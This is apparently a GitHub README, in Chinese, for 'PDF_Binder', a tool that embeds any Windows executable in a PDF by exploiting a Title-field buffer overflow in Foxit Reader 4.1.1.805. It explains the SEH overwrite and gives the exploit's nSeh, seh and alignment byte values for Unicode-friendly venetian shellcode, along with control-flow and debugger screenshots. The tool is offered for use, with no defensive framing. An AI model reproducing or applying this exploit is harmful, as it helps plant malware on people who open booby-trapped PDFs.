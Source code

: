 PDF_Binder
==========

PDF_Binder(foxit reader4.1.1 exploit)
PDF捆绑器，可捆绑win平台下的任何可执行程序。</br>
漏洞描述：如果PDF文件的Title字段过长，Foxit Reader 4.1.1.805在读取Title字段时会发生缓冲区溢出。</br>
原因：Title字段过长，Foxit Reader 4.1.1.805调用lstrcpyW函数的时候会发生缓冲区溢出从而覆盖掉SEH。</br>
##Unicode-friendly SEH exploit：
nSeh  = "\x5A\x41" #0041005A are harmless instrs(venetian shellcode). </br>
seh   = "\x46\x6A" #006A0046 the addrs point to p/p/r instrs and it is harmless </br>
align = "\x41\x61\x5C\x5C\x41\x61\x41\x54\x41\xC3" # Align  finally make eip point to shellcode </br>
###Control flow
![control flow](https://github.com/cnStevenYu/PDF_Binder/blob/master/Binder/Resources/pdf%20exploit.png?raw=true)
###Debug 
![seh](https://github.com/cnStevenYu/PDF_Binder/blob/master/Binder/Resources/seh.png?raw=true)
![nSeh](https://github.com/cnStevenYu/PDF_Binder/blob/master/Binder/Resources/nSeh.png?raw=true)


